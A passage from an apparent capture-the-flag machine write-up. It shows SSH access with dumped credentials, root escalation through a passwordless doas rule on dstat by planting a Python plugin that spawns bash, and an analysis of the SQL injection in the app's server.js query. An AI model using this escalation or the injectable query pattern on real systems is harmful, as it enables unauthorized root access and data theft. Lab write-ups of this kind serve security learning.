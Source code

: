 * Got ssh shell as user "player" with dumped creds -> `player:PlayerOftheMatch2022`

And we already know from the linpeas scan that User "player" can run `doas` as root on "`/usr/bin/dstat`"
```bash
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

* `doas` is a `sudo` alternative for OpenBSD

And from gtfobins -> https://gtfobins.github.io/gtfobins/dstat/

```bash
echo 'import os; os.execv("/bin/bash", ["bash"])' >/usr/local/share/dstat/dstat_xxx.py
doas -u root /usr/bin/dstat --xxx
```

![](screenshots/rooted.png)


# Beyond root

when we input "id" as value in the json data it returned true with "Ticket Exists" message.

And from the source code of the `/root/app/server.js` after root,

Here, This line is handling the "id" key value
```js
var id = JSON.parse(data).id;
```

So, if we test this code
```js
// Parse the JSON data string
const data = '{"id": "id"}';
const obj = JSON.parse(data);

// Log the value of the "id" key
console.log(obj.id);
```

It outputs a unquotes string -> id

And, here is the sql query which is handling the database request, and that `id` variable form the script directly inserted in the query.
```bash
const query = `Select id,username,password  FROM accounts where id = ${id}`;
```
